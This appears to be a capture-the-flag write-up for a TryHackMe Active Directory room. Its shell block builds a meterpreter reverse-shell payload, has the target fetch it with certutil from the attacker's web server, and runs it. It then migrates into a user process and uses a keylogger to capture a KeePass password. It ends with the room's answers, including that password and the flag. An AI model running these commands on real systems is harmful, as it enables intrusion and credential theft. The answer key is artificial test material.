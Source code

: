 ```shell
#in attacker machine
#create payload
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.50.57.82 LPORT=4444 -f psh -o shell.ps1

msfconsole -q -x "use exploit/multi/handler; set PAYLOAD windows/x64/meterpreter/reverse_tcp; set LHOST 10.50.57.82; set LPORT 4444; exploit"
#setup listener

#host payload using Python webserver
python3 -m http.server

#in evil-winrm session
certutil.exe -urlcache -split -f http://10.50.57.82:8000/shell.ps1
#get payload

#execute payload
.\shell.ps1

#we get meterpreter shell on attacker
ps | grep "explorer"
#shows a session on THMSERVER1 as trevor.local

migrate <PID of explorer.exe>
#migrate from system to user

getuid
#trevor.local

keyscan_start
#start keylogger

#after 2-3 minutes
keyscan_dump
#stop keylogger
#dumps password

#in attacker machine
sudo apt install keepassx
#now we can open kdbx file and use password found earlier
```

```markdown
1. What application is used to open the kdbx credential database? - KeePass

2. What meterpreter command do we use to move from SYSTEM to user context? - migrate

3. What is the password of the credential database? - Imreallysurenoonewillguessmypassword

4. What is the value of the flag stored in the credential database? - THM{AD.Users.Can.Give.Up.Good.Secrets}
```
